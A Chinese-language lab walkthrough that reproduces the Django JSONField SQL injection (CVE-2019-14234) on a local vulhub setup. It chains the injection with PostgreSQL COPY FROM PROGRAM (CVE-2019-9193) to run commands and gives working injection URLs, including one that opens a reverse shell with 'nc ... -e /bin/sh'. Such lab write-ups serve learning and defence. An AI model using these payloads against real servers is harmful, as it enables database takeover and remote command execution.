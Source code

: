 


基于vulhub复现Django JSONField SQL注入漏洞（CVE-2019-14234）

## 漏洞概述：

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。

Django通常搭配postgresql数据库，而JSONField是该数据库的一种数据类型。该漏洞的出现的原因在于Django中JSONField类的实现，Django的model最本质的作用是生成SQL语句，而在Django通过JSONField生成sql语句时，是通过简单的字符串拼接。

![](https://i0.hdslb.com/bfs/article/ab6eb4f3584a62da05297df5ba8e403af226558b.png@1320w_876h.png)

通过JSONField类获得KeyTransform类并生成sql语句的位置。

其中key_name是可控的字符串，最终生成的语句是WHERE (field->'[key_name]') = 'value'，因此可以进行SQL注入。

## 影响范围：

Django (1.11.x) Version < 1.11.23
Django (2.1.x) Version < 2.1.11
Django (2.2.x) Version < 2.2.4

## 漏洞复现

### 部署环境

可以使用docker vulhub快速部署 

    cd /vulhub-master/django/CVE-2019-14234
    docker-compose build
    docker-compose up -d

访问127.0.0.1:8000

### 漏洞复现

登录环境

访问：http://127.0.0.1:8000/admin/vuln/collection/ 输入默认账户密码
账户：adimin
密码：a123123123

登录成功后看到以下界面：

![](https://i0.hdslb.com/bfs/article/3fb64ee63ffac6e99425e8e492dbe143ae958f5d.png@1320w_412h.png)

构造报错语句：
使用GET参数构造detail__a'b=123提交，其中detail是模型Collection中的JSONField：

http://127.0.0.1:8000/admin/vuln/collection/?detail__a%27b=123

构造的语句提交后回显数据库报错，证明SQL语句被执行：

![](https://i0.hdslb.com/bfs/article/14cc106521ba7cd460e92e80b4d0510303ec2795.png@1320w_470h.png)

CVE-2019-9193：具有数据库服务器文件读取权限的攻击者可以利用此漏洞执行任意系统命令，该漏洞由 PostgreSQL 引发 

思路稍加扩展，我们可以利用CVE-2019-14234(SQL注入漏洞)向服务器传送包含CVE-2019-9193(命令执行漏洞)系统命令的SQL语句，从而利用SQL语句，执行任意系统命令。  

构造命令执行语句： 

    http://127.0.0.1:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'touch /tmp/vuln.txt'--%20  

命令执行结果：当提示“no results to fetch”即为执行成功。 

![](https://i0.hdslb.com/bfs/article/cbf3027fde7903ef178ddabf8e9b6921eab72d4f.png@1320w_416h.png)

进入docker的postgres容器可以看到/tmp目录下生成了vuln.txt文件

"touch /tmp/vuln.txt"即为系统命令，可以替换成其他命令并且执行，例如配合 nc 命令获取shell。  

    nc -l -p 9999
    http://127.0.0.1:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'nc ip 9999 -e /bin/sh'--%20  



## 参考文档

[Django JSONField SQL注入漏洞（CVE-2019-14234）分析与影响](https://www.leavesongs.com/PENETRATION/django-jsonfield-cve-2019-14234.html)
[CVE-2019-14234 | Django JSON SQL注入漏洞 & 任意系统命令执行](https://www.bilibili.com/read/cv4579255/)
[CVE-2019-14234 Django JSONField SQL注入漏洞复现](https://blog.csdn.net/m0_48520508/article/details/107639153)